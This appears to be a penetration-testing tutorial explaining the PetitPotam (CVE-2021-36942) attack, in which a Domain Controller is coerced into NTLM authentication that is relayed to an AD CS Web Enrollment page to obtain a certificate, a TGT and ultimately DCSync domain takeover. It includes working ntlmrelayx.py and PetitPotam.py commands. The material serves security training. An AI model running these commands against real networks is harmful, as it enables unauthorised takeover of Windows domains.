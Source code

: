 PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

Relaying NTLM Authentication: captures NTLM authentication messages from one source and forwards them to a target system, allowing the attacker to authenticate as the intercepted user.
Let's walk through the attack. First off, we need to start `ntlmrelayx.py` in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template. If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.
```shell
sudo ntlmrelayx.py -debug -smb2support --target http://Subdomain.Domain/certsrv/certfnsh.asp --adcs --template DomainController
```
![image](https://github.com/user-attachments/assets/4a5da9a5-ba54-4cf0-8f2e-5244a537ad57)

we can run the tool [PetitPotam.py](https://github.com/topotam/PetitPotam). We run this tool with the command
```shell
python3 PetitPotam.py <attack host IP> <Domain Controller IP>
```
to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.
From ntlmrelayx session
![image](https://github.com/user-attachments/assets/2750c8a0-7b15-4402-bb70-f88862f44684)



